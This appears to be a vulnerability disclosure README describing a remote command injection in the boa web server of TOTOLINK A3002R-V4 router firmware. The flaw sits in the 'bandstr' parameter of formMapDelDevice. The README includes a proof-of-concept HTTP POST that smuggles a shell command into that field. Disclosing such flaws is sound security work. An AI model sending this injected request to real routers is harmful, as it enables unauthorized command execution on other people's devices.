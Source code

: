 # totolink_A3002R_remote_command_exec
**description**: a Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via parameter "bandstr"


## Firmware
**brand**:totolink   

**product**:A3002R-V4 

**version**:V4.0.0-B20230531.1404

The firmware can be downloaded from this [website][1]

## detail
**addr**:0045a2a4

**function**:FUN_0045a1f8
Using ghidra we can know that the post parameter "bandstr" will be sprintf as the second input parameter and result the command injection and the realte action is  formMapDelDevice
![alt text](./img/action.png)


![alt text](./img/image-2.png)


# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 163

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/multi_ap_popup_client_details.htm

Upgrade-Insecure-Requests: 1





sessionCheck=eac3d25a37ff88c5d813f312586baec9&submit-url=%2Fmulti_ap_popup_client_details.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20> /tmp/rec1.txt
```
![alt text](./img/image.png)

[1]:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html
